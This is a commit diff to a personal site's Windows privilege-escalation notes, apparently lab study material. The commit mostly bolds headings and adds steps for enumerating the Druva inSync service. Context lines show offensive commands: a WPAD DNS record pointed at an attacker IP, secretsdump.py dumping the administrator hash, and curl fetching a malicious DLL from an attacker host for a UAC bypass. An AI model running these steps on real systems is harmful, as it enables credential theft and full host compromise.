

Before and after one commit to 0xabsec/0xabsec.github.io, a Jekyll site: the page built from pages/windowsPriv1.md, in a window 1280 px wide and 1400 px high, scrolled down 17647 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 18218 px from its top, so only the background shows below that.

````diff
--- a/pages/windowsPriv1.md
+++ b/pages/windowsPriv1.md
@@ -34,7 +34,7 @@ Sysinternals Suite → We will use several tools from Sysinternals in our enumer
 
 ## Getting lay of the Land
 
-### Situational Awareness
+### **Situational Awareness**
 
 #### Network Information
 
@@ -72,7 +72,7 @@ Test AppLocker Policy
 PS C:\Users\> Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
 ```
 
-### Initial Enumeration
+### **Initial Enumeration**
 
 [Windows COmmand Reference](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands)
 
@@ -186,7 +186,7 @@ PS C:\Users\> net accounts
 ```
 > Get Password Policy
 
-### Communication WIth Processes
+### **Communication WIth Processes**
 
 #### Listing Named Pipes with Pipelist
 
@@ -220,7 +220,7 @@ C:\> accesschk.exe -accepteula -w \pipe\WindscribeService -v
 
 ## Windows Group Privileges
 
-### Event Log Readers
+### **Event Log Readers**
 
 Administrators or members of the Event Log Readers group have permission to access this log
 
@@ -250,7 +250,7 @@ PS C:\> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properti
 
 > Searching the Security event log with Get-WinEvent requires administrator access or permissions adjusted on the registry key HKLM\System\CurrentControlSet\Services\Eventlog\Security. Membership in just the Event Log Readers group is not sufficient.
 
-### DNS ADMINS
+### **DNS ADMINS**
 
 Members of the DnsAdmins group have access to DNS information on the network. The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones. The DNS service runs as NT AUTHORITY\SYSTEM, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL
 
@@ -393,7 +393,7 @@ C:\> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.AD.loca
 C:\> Add-DnsServerResourceRecordA -Name wpad -ZoneName AD.local -ComputerName dc01.AD.local -IPv4Address 10.10.14.3
 ```
 
-### Server Operators
+### **Server Operators**
 
 The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.
 
@@ -427,7 +427,7 @@ C:\> sc start <service Name>
 C:\> net localgroup Administrators
 ```
 
-### Dumping Admin hash
+#### Dumping Admin hash
 
 Once we Are member of Admin Group We can dump hashes of admin
 
@@ -437,7 +437,7 @@ attacker@ubuntu[/]$  secretsdump.py <user>@<ip> -just-dc-user administrator
 
 ## Attacking the OS
 
-### User Account Control
+### **User Account Control**
 
 User Account Control (UAC) is a feature that enables a consent prompt for elevated activities. Applications have different integrity levels, and a program with a high level can perform tasks that could potentially compromise the system. When UAC is enabled, applications and tasks always run under the security context of a non-administrator account unless an administrator explicitly authorizes these applications/tasks to have administrator-level access to the system to run
 
@@ -523,7 +523,7 @@ PS C:\>curl http://<ip>/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\Wi
 C:\> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
 ```
 
-### Weak Permissions
+### **Weak Permissions**
 
 Permissions on Windows systems are complicated and challenging to get right. A slight modification in one place may introduce a flaw elsewhere. Services usually install with SYSTEM privileges, so leveraging a service permissions-related flaw can often lead to complete control over the target system
 
@@ -788,3 +788,44 @@ Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 User     : Public
 ```
 > This [post](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries) and this [site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems
+
+### **Vulnerable Services**
+#### Enumerating Installed Programs
+
+```
+C:\> wmic product get name
+
+Name
+Druva inSync 6.6.3
+```
+
+#### Enumerating Local Ports
+
+```
+C:\> netstat -anoy
+
+ TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
+```
+
+#### Enumerating Process ID
+
+Map the process ID (PID) 3324 back to the running process.
+
+```
+PS C:\> get-process -Id 3324
+
+Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
+-------  ------    -----      -----     ------     --  -- -----------
+    149      10     1512       6748              3324   0 inSyncCPHwnet64
+
+```
+
+#### Enumerating Running Service
+
+```
+PS C:\> get-service | ? {$_.DisplayName -like 'Druva*'}
+
+Status   Name               DisplayName
+------   ----               -----------
+Running  inSyncCPHService   Druva inSync Client Service
+```
````
